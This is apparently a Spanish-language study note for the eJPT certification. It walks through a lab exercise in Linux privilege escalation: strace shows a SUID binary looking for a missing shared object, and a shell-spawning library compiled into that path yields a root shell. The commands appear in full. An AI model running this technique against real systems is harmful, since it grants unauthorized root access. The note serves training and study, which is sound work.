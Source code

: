 - El ejecutable /usr/local/bin/suid-so SUID es vulnerable a la inyección de objetos - compartidos

- First, execute the file and note that currently it displays a progress bar before exiting:

```
/usr/local/bin/suid-so
```

- Ejecute strace en el archivo y busque en la salida llamadas de apertura/acceso y errores de "no existe tal archivo":

```
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```
Tenga en cuenta que el ejecutable intenta cargar el objeto compartido /home/user/.config/libcalc.so dentro de nuestro directorio de inicio, pero no lo puede encontrar. 

- Cree el directorio .config para el archivo libcalc.so:

```
mkdir /home/user/.config
```

- Puede encontrar un ejemplo de código objeto compartido en /home/user/tools/suid/libcalc.c. Simplemente genera un shell Bash. Compile el código en un objeto compartido en la ubicación donde lo buscaba el ejecutable suid-so:

```
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```

- Ejecute el ejecutable suid-so nuevamente y observe que esta vez, en lugar de una barra de progreso, obtenemos un shell raíz.

```
/usr/local/bin/suid-so
```



enlace:
[[Preparacion-Ejpt]]
[[SUID - SGID Executables  Known - Exploits]]
[[SUID - SGID Executables - Environment Variables]]
[[SUID - SGID Executables - Abusing Shell Features (1)]]
[[SUID - SGID Executables - Abusing Shell Features (2)]]